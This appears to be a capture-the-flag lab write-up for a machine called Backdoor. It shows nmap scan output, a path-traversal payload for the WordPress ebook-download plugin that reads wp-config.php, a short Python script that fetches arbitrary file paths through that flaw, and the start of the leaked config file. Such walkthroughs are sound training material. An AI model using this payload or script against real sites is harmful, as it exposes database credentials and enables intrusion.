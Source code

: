 ```
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 16 19:11:40 2022 -- 1 IP address (1 host up) scanned in 37.58 seconds
```
## 1.2 Nmap All Ports
```
# Nmap 7.91 scan initiated Wed Jan 19 22:59:36 2022 as: nmap -sS -p- --min-rate=1000 -oA backdoor-all-ports backdoor.htb
Nmap scan report for backdoor.htb (backdoor.htb)
Host is up (0.22s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  waste

# Nmap done at Wed Jan 19 23:00:47 2022 -- 1 IP address (1 host up) scanned in 70.57 seconds
```

# 2 Foothold
## 2.2 Check plugins directory
http://backdoor.htb/wp-content/plugins/
```
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[DIR]	ebook-download/	2021-11-10 14:18 	- 	 
[ ]	hello.php	2019-03-18 17:19 	2.5K	 
```

## 2.3 Find LFI vuln at ebook-download plugin
<a href="https://www.exploit-db.com/exploits/39575">https://www.exploit-db.com/exploits/39575</a>
```
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

## 2.4 Fuzzing 
### Manually (provide file path as argv1)
Python Script
```
import requests,sys

r = requests.get("http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=" + sys.argv[1])
print(r.text)
```
wp-config.php
```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
```